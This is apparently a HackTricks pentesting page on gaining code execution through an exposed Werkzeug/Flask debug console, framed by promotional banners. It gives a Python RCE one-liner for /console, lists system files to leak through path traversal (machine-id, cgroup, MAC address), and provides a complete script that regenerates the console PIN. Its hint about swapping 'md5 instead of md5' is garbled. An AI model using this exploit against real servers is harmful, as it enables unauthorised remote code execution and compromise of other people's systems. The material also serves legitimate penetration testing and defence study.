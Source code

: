 # Werkzeug / Flask Debug

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**hacktricks repo**](https://github.com/carlospolop/hacktricks) **and** [**hacktricks-cloud repo**](https://github.com/carlospolop/hacktricks-cloud).

</details>

<figure><img src="../../.gitbook/assets/image (1) (1) (2) (4).png" alt=""><figcaption></figcaption></figure>

[**DragonJAR Security Conference es un evento internacional de ciberseguridad**](https://www.dragonjarcon.org/) con más de una década que se celebrará el 7 y 8 de septiembre de 2023 en Bogotá, Colombia. Es un evento de gran contenido técnico donde se presentan las últimas investigaciones en español que atrae a hackers e investigadores de todo el mundo.\
¡Regístrate ahora en el siguiente enlace y no te pierdas esta gran conferencia!:

{% embed url="https://www.dragonjarcon.org" %}

## Console RCE

If debug is active you could try to access to `/console` and gain RCE.

```python
__import__('os').popen('whoami').read();
```

![](<../../.gitbook/assets/image (317).png>)

There is also several exploits on the internet like [this ](https://github.com/its-arun/Werkzeug-Debug-RCE)or one in metasploit.

## Pin Protected - Path Traversal

In some occasions the **`/console`** endpoint is going to be protected by a pin. If you have a **file traversal vulnerability**, you can leak all the necessary info to generate that pin.

### Werkzeug Console PIN Exploit

**Copied from the first link.**\
See Werkzeug “console locked” message by forcing debug error page in the app.

```
The console is locked and needs to be unlocked by entering the PIN.
You can find the PIN printed out on the standard output of your
shell that runs the server
```

Locate vulnerable Werkzeug debug console at path `vulnerable-site.com/console`, but is locked by secret PIN number.

You can reverse the algorithm generating the console PIN. Inspect Werkzeug’s debug `__init__.py` file on server e.g. `python3.5/site-packages/werkzeug/debug/__init__.py`. You can view [**Werkzeug source code repo**](https://github.com/pallets/werkzeug/blob/master/src/werkzeug/debug/\_\_init\_\_.py) **to check how the PIN is generated**, but better to leak source code through **file traversal vulnerability** since versions likely differ.

Variables needed to exploit the console PIN:

```python
probably_public_bits = [
    username,
    modname,
    getattr(app, '__name__', getattr(app.__class__, '__name__')),
    getattr(mod, '__file__', None),
]

private_bits = [
    str(uuid.getnode()),
    get_machine_id(),
]
```

#### **`probably_public_bits`**

* **`username`** is the user who started this Flask
* **`modname`** is flask.app
* `getattr(app, '__name__', getattr (app .__ class__, '__name__'))` is **Flask**
* `getattr(mod, '__file__', None)` is the **absolute path of `app.py`** in the flask directory (e.g. `/usr/local/lib/python3.5/dist-packages/flask/app.py`). If `app.py` doesn't work, **try `app.pyc`**

#### `private_bits`

*   `uuid.getnode()` is the **MAC address of the current computer**, `str(uuid.getnode())` is the decimal expression of the mac address.

    * To **find server MAC address**, need to know which **network interface is being used** to serve the app (e.g. `ens3`). If unknown, **leak `/proc/net/arp`** for device ID and then **leak** MAC address at **`/sys/class/net/<device id>/address`**.

    Convert **from hex address to decimal** representation by running in python e.g.:

    ```python
    # It was 56:00:02:7a:23:ac
    >>> print(0x5600027a23ac)
    94558041547692
    ```
* `get_machine_id()` concatenate the **values in `/etc/machine-id`** or **`/proc/sys/kernel/random/boot_id`** with the **first line of `/proc/self/cgroup`** after the last slash (`/`).

<details>

<summary>get_machine_id() code</summary>

```python
def get_machine_id() -> t.Optional[t.Union[str, bytes]]:                                                                                                  
    global _machine_id

    if _machine_id is not None:
        return _machine_id

    def _generate() -> t.Optional[t.Union[str, bytes]]:
        linux = b""

        # machine-id is stable across boots, boot_id is not.
        for filename in "/etc/machine-id", "/proc/sys/kernel/random/boot_id": 
            try:
                with open(filename, "rb") as f:
                    value = f.readline().strip()
            except OSError:
                continue

            if value:
                linux += value
                break

        # Containers share the same machine id, add some cgroup
        # information. This is used outside containers too but should be
        # relatively stable across boots.
        try:
            with open("/proc/self/cgroup", "rb") as f:
                linux += f.readline().strip().rpartition(b"/")[2]
        except OSError:
            pass

        if linux:
            return linux

        # On OS X, use ioreg to get the computer's serial number.
        try:
```

</details>

Once all variables prepared, run exploit script to generate Werkzeug console PIN:

```python
import hashlib
from itertools import chain
probably_public_bits = [
    'web3_user',# username
    'flask.app',# modname
    'Flask',# getattr(app, '__name__', getattr(app.__class__, '__name__'))
    '/usr/local/lib/python3.5/dist-packages/flask/app.py' # getattr(mod, '__file__', None),
]

private_bits = [
    '279275995014060',# str(uuid.getnode()),  /sys/class/net/ens33/address
    'd4e6cb65d59544f3331ea0425dc555a1'# get_machine_id(), /etc/machine-id
]

#h = hashlib.md5() # Changed in https://werkzeug.palletsprojects.com/en/2.2.x/changes/#version-2-0-0
h = hashlib.sha1()
for bit in chain(probably_public_bits, private_bits):
    if not bit:
        continue
    if isinstance(bit, str):
        bit = bit.encode('utf-8')
    h.update(bit)
h.update(b'cookiesalt')
#h.update(b'shittysalt')

cookie_name = '__wzd' + h.hexdigest()[:20]

num = None
if num is None:
    h.update(b'pinsalt')
    num = ('%09d' % int(h.hexdigest(), 16))[:9]

rv =None
if rv is None:
    for group_size in 5, 4, 3:
        if len(num) % group_size == 0:
            rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
                          for x in range(0, len(num), group_size))
            break
    else:
        rv = num

print(rv)
```

{% hint style="success" %}
If you are on an **old version** of Werkzeug, try changing the **hashing algorithm to md5** instead of md5.
{% endhint %}

## References

* [**https://www.daehee.com/werkzeug-console-pin-exploit/**](https://www.daehee.com/werkzeug-console-pin-exploit/)
* [**https://ctftime.org/writeup/17955**](https://ctftime.org/writeup/17955)

<figure><img src="../../.gitbook/assets/image (1) (1) (2) (4).png" alt=""><figcaption></figcaption></figure>

[**DragonJAR Security Conference es un evento internacional de ciberseguridad**](https://www.dragonjarcon.org/) con más de una década que se celebrará el **7 y 8 de septiembre de 2023** en Bogotá, Colombia. Es un evento de gran contenido técnico donde se presentan las últimas investigaciones en español que atrae a hackers e investigadores de todo el mundo.\
¡Regístrate ahora en el siguiente enlace y no te pierdas esta gran conferencia!:

{% embed url="https://www.dragonjarcon.org" %}

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**hacktricks repo**](https://github.com/carlospolop/hacktricks) **and** [**hacktricks-cloud repo**](https://github.com/carlospolop/hacktricks-cloud).

</details>
